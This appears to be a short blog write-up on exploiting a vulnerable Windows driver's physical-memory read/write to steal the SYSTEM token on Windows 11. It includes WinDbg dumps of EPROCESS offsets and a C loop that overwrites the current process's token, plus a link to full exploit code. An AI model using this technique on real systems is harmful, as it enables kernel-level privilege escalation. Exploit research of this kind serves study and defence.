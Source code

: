 # Token Stealing via Physical Memory

## Outline
I saw this really cool blog post a while ago about abusing a physical memory read / write by converting the address to a virtual one and thought it would be cool to "borrow" and improve on a bit. I highly recommend you read the original blog post: https://xacone.github.io/eneio-driver.html before reading my ramblings. Instead of rehashing everything covered in the original blog I'm going to talk about how I approached weaponising the driver and slightly touch on how token stealing works.

## High Level Recap 
(In case you didn't read the blog post ...)
On windows 11 there is a function called `nt!HalpLMStub` which is `0x30` bytes before the `cr3` value and is always at a physical address between `0x10000` and `0x20000`. When we get the cr3 value we can easily convert virtual address to physical. (Also recommend reading https://connormcgarr.github.io/paging/ If you don't have a solid understanding of windows paging.) From here they went on to leak out the KTHREAD and the values from the kernel's big pool. Here's where i decided to take a different path.

## Token Stealing
While stealing the system token was my logical next thought I decided to leak out the system EProcess token using `NtQuerySystemInformation` and walking the `ActiveProcessLinks` to find the token of the current process. To do this we need 3 things from a EProcess's structure, its PID, ActiveProcessLinks. First we can dump out the system token and a normal process's token in windbg and see the differences.

```json
0: kd> !process 0 0
**** NT ACTIVE PROCESS DUMP ****
PROCESS ffff980ca768c040
    SessionId: none  Cid: 0004    Peb: 00000000  ParentCid: 0000
    DirBase: 001ae000  ObjectTable: ffffa9036b26aec0  HandleCount: 2675.
    Image: System
...
PROCESS ffff980cb2477080
    SessionId: none  Cid: 1904    Peb: e114fc6000  ParentCid: 12cc
    DirBase: 49e1e000  ObjectTable: ffffa9037048c800  HandleCount: 1179.
    Image: Notepad.exe

# Dumping each process's token:
# systems
0: kd> dt _EPROCESS ffff980ca768c040 Token
nt!_EPROCESS
   +0x248 Token : _EX_FAST_REF
0: kd> dx -id 0,0,ffff980ca768c040 -r1 (*((ntkrnlmp!_EX_FAST_REF *)0xffff980ca768c288))
(*((ntkrnlmp!_EX_FAST_REF *)0xffff980ca768c288))                 [Type: _EX_FAST_REF]
    [+0x000] Object           : 0xffffa9036b20d04f [Type: void *]
    [+0x000 ( 3: 0)] RefCnt           : 0xf [Type: unsigned __int64]
    [+0x000] Value            : 0xffffa9036b20d04f [Type: unsigned __int64]

# notepad
0: kd> dt _EPROCESS ffff980cb2477080 Token
nt!_EPROCESS
   +0x248 Token : _EX_FAST_REF
0: kd> dx -id 0,0,ffff980ca768c040 -r1 (*((ntkrnlmp!_EX_FAST_REF *)0xffff980cb24772c8))
(*((ntkrnlmp!_EX_FAST_REF *)0xffff980cb24772c8))                 [Type: _EX_FAST_REF]
    [+0x000] Object           : 0xffffa9037abbd0aa [Type: void *]
    [+0x000 ( 3: 0)] RefCnt           : 0xa [Type: unsigned __int64]
    [+0x000] Value            : 0xffffa9037abbd0aa [Type: unsigned __int64]
```

As we can see the token structure has the bottom 3 bits set as a reference counter, so to use the value we will have to mask them off. Implementing this we can walk forward one EPROCESS then check the PID.

Finding the offsets.
```json
0: kd> dt _EProcess  Token UniqueProcessId ActiveProcessLinks

nt!_EPROCESS
   +0x1d0 UniqueProcessId    : Ptr64 Void
   +0x1d8 ActiveProcessLinks : _LIST_ENTRY
   +0x248 Token              : _EX_FAST_REF
```

Hard coding the offsets.
```c
while (TRUE) {
	QWORD Pid_location = current_eproc + (QWORD)0x1d0;
	offset = VirtualToPhysical(cr3, Pid_location, data);
	//printf("Physcial address for pid off : %llx\n", offset);


	current_pid = 0;
	for (size_t i = 0; i < sizeof(DWORD); ++i) {
		current_pid |= (DWORD)(data[offset + i]) << (i * 8);
	}

	//printf("Current PID: %llx\n", current_pid);

	if (current_pid == program_pid) {
		offset = VirtualToPhysical(cr3, current_eproc + 0x248, data);
		// write system token to this location
		printf("[+] Found Process token at: %llx\n", offset);
		printf("\t[i] Swapping with system token...\n");
		for (int i = 0; i < sizeof(QWORD); ++i) {
			data[offset + i] = (BYTE)((sys_token >> (i * 8)) & 0xFF);
		}
		break;
	}
}
```

I thought I would also check if the host is windows 11 24H2 or greater and check if we are running in high integrity before calling the driver and trying to get a KASLR leak.

Full code can be found here: https://github.com/ElJayRight/Driver_Exploits/blob/main/eneio64/main.c

## Closing thoughts
So yeah super quick writeup, I didnt really want to rehash someone else's writeup and thought it would be cool to poc a physical memory abuse driver. I'm planning on using this driver in a bigger project soonish.

I thought about adding a ring buffer so I didnt have to map all the memory in one go, however I was too lazy to want to reimplement the virtualtophysical function so decided against it. Maybe in the future.
